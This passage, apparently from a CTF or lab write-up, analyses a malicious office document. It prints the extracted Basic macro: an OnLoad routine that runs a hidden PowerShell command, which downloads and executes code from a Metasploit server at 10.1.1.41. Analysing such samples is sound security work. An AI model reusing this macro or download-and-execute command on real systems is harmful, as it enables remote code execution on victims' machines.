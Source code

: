 

I'll find the macros in the Basic folder, under `Module1.xml`:



    root@kali# tree Basic/
    Basic/
    ├── script-lc.xml
    └── Standard
        ├── Module1.xml
        └── script-lb.xml

    1 directory, 3 files



Here's the code (I've pulled it out of the XML and removed some of the
simple encoding like replacing `&quot;` with `"`):



        Sub OnLoad
          Dim os as string
          os = GetOS
          If os = "windows" OR os = "osx" OR os = "linux" Then
            Exploit
          end If
        End Sub

        Sub Exploit
          Shell("cmd.exe /C ""powershell.exe -nop -w hidden -c $i=new-object net.webclient;$i.proxy=[Net.WebRequest]::GetSystemWebProxy();$i.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $i.downloadstring('http://10.1.1.41:8088/Pc2F6ndgt1H5jGs');""";)
        End Sub

        Function GetOS() as string
          select case getGUIType
            case 1:
              GetOS = "windows"
            case 3:
              GetOS = "osx"
            case 4:
              GetOS = "linux"
          end select
        End Function

        Function GetExtName() as string
          select case GetOS
            case "windows"
              GetFileName = "exe"
            case else
              GetFileName = "bin"
          end select
        End Function



There's four functions. I'm going to guess (correctly) that `OnLoad` is
called on document open. It calls `GetOs`, and if the result is
`windows`, `osx`, or `linux`, it calls `Exploit`. `Exploit` issues a
common PowerShell command to download and execute further PowerShell
from the Metasploit server.
